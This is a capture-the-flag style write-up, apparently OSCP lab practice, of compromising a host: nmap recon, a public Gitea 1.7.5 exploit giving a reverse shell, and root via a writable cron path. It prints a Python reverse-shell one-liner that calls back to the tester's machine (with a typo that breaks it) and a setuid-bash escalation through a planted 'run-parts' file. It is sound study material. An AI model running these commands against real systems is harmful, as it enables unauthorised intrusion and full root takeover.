


**Start 09:47 03-01-2025**

---
```
Scope:
192.168.196.67
```
# Recon

## Nmap

```bash
sudo nmap -sC -sV -oN nmap 192.168.196.67 -T5 -vvvv --min-rate=5000 -sT -p-

PORT     STATE  SERVICE REASON       VERSION
21/tcp   open   ftp     syn-ack      ProFTPD 1.3.5b
22/tcp   open   ssh     syn-ack      OpenSSH 7.4p1 Debian 10+deb9u7 (protocol 2.0)
53/tcp   closed domain  conn-refused
2222/tcp open   ssh     syn-ack      Dropbear sshd 2016.74 (protocol 2.0)
3000/tcp open   ppp?    syn-ack
| fingerprint-strings: 
|   GenericLines, Help: 
|     HTTP/1.1 400 Bad Request
|     Content-Type: text/plain; charset=utf-8
|     Connection: close
|     Request
|   GetRequest: 
|     HTTP/1.0 200 OK
|     Content-Type: text/html; charset=UTF-8
|     Set-Cookie: lang=en-US; Path=/; Max-Age=2147483647
|     Set-Cookie: i_like_gitea=c8575ef77f13f677; Path=/; HttpOnly
|     Set-Cookie: _csrf=yQu0cXuU-FS39aos97X2UjKsYrw6MTczNTg5NDA3NzY3OTMxODE1MQ%3D%3D; Path=/; Expires=Sat, 04 Jan 2025 08:47:57 GMT; HttpOnly
|     X-Frame-Options: SAMEORIGIN
|     Date: Fri, 03 Jan 2025 08:47:57 GMT
|     <!DOCTYPE html>
|     <html>
|     <head data-suburl="">
|     <meta charset="utf-8">
|     <meta name="viewport" content="width=device-width, initial-scale=1">
|     <meta http-equiv="x-ua-compatible" content="ie=edge">
|     <title>Gitea: Git with a cup of tea</title>
|     <link rel="manifest" href="/manifest.json" crossorigin="use-credentials">
|     <script>
|     ('serviceWorker' in navigator) {
|     window.addEventListener('load', function() {
|     navigator.serviceWorker.register('/serviceworker.js').then(function(registration) {
|   HTTPOptions: 
|     HTTP/1.0 404 Not Found
|     Content-Type: text/html; charset=UTF-8
|     Set-Cookie: lang=en-US; Path=/; Max-Age=2147483647
|     Set-Cookie: i_like_gitea=adb8b86ceaefc313; Path=/; HttpOnly
|     Set-Cookie: _csrf=XoE1yPfF5RrD9PGqxmDhOJIFlAU6MTczNTg5NDA4MjgzMjkwMjYzMw%3D%3D; Path=/; Expires=Sat, 04 Jan 2025 08:48:02 GMT; HttpOnly
|     X-Frame-Options: SAMEORIGIN
|     Date: Fri, 03 Jan 2025 08:48:02 GMT
|     <!DOCTYPE html>
|     <html>
|     <head data-suburl="">
|     <meta charset="utf-8">
|     <meta name="viewport" content="width=device-width, initial-scale=1">
|     <meta http-equiv="x-ua-compatible" content="ie=edge">
|     <title>Page Not Found - Gitea: Git with a cup of tea</title>
|     <link rel="manifest" href="/manifest.json" crossorigin="use-credentials">
|     <script>
|     ('serviceWorker' in navigator) {
|     window.addEventListener('load', function() {
|_    navigator.serviceWorker.register('/serviceworker.js').then(function(registration
```

I tried to log in as `anonymous` into FTP with no luck:


Then I started enumerating services and found that **Gitea 1.7.5** is running on **port 3000**.


I checked for exploits and found one:


As for further enumeration I did not find anything useful for the `Dropbear` SSH service.


# Initial Foothold

## 3000/TCP - HTTP

I downloaded the PoC and started modifying it:


I now had to create a `shell` payload that I could use to get a reverse shell.


I booted up my `nc` listener and got to work.


Unfortunately after the **Succesful login** I got an error.

>[!fail]
>I went too fast, the premise is to create an account first.

I registered a new account:

```
test1
test123
```


I then had to modify the PoC again to include the newly created user.


For whatever reason the exploit still wouldn't fire correctly:


I went ahead and reverted the machine.

After reverting the machine another problem showed up. The exploit succesfully uploaded but the reverse shell wouldn't fire. Time to try another payload:


After many many reverts I FINALLY managed to get a shell:


I then upgraded the shell using `script -c bash /dev/null`:


### local.txt




# Privilege Escalation

Now that we have access we can get to enumerating the system and finding a way to exploit it.

I started off with `sudo -l` which gave me a surprise right away:


I then went ahead and enumerated SUID/GUID binaries:


I could've gone and enumerated it manually but instead I downloaded `linpeas.sh`:


Right away I noticed the following:


As well as:


>[!note]
>We see `/usr/bin/local` as an interesting writable directory. It’s also set up in the cron path in the second position.

I went ahead and enumerated the cron jobs:


>[!important]
>At the top we notice the cron job `cd / && run-parts --report /etc/cron.hourly`. This means we could write a `run-parts` executable within `/usr/local/bin` which will then get executed within the hour and give us a `root` shell, as it the cron job is owned by `root`.

Let's put this in practice:

```bash
python3 -c 'import socket,subprocess,os;s=scoket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("192.168.45.238",2223));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);subprocess.call(["/bin/sh","-i"])'
```

I made this in my Kali machine, then transferred it over and `chmod 777` the file and then waited for a root shell.

>[!fail]
>This took a really long time without any effect, I also tried a `msfvenom` payload to no avail.

## Succesful approach

```bash
echo "chmod +s /bin/bash" > run-parts
chmod +x run-parts

ls -la /bin/bash
-rwsr-sr-x 1 root root 1099016 May 15  2017 /bin/bash
```

We can now go ahead and run `bash -p` to elevate our shell:



>[!success]
>We have FINALLY after many reverts successfully escalated our privileges.

### proof.txt


---

**Finished 12:01 03-01-2025**

[^Links]: [[OSCP Prep]]  

#cron #priv-esc #gitea 


